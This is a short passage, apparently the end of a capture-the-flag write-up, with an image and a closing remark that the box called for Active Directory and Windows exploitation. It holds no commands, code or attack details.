

That's all y'all, this box was surprisingly fun and had us perform a mix of Active Directory and regular Windows exploitation. I hope this was helpful to anyone following along or stuck and happy hacking!
